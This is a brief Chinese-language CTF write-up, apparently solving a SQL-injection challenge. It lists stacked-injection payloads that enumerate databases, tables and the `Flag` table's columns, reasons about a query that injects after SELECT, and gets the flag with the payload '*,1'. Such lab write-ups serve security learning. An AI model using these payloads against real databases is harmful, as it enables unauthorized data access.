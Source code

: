 堆叠注入试试

```mysql
1;show databases;-- -
1;show tables;-- -
1;show columns from `Flag`;-- - # 最后两个
1;desc Flag;-- -
```

### 原查询语句猜测

根据回显猜测代码里的SQL语句

回显用的是`var_dump`函数，当查询语句为纯数字的时候才回显。

数据库的特性，当`select`后面是数字的时候，即使查询的字段没有也不会报错，当查询的带有`英文字母`的时候，就会产生报错，所以初步判断查询的内容应该不是以往那种`SQL注入`的题目在`where后面`

而这里的就是在`select后面`的 ，试一下查询`1,2,3,4,5`

![image-20231109232431928](./img/4-9.png)

猜想正确，注意到原本查询唯独末尾的`5`变为了`1`，猜测是用到了`管道符`（`|` `||`之类的），导致`5`回显失败，这里先试试看查询

```
*,1
```

直接得到了`flag`，算是个非预期解
